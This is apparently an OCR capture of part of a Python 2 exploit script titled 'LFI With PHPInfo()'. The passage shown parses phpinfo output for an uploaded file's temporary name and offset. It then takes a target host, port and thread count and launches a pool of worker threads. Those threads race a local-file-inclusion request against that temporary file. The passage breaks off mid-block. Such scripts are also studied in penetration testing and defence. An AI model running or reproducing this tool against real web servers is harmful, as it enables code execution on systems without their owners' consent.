 ```
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
    
    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256

def main():
    
    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)
    
    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
```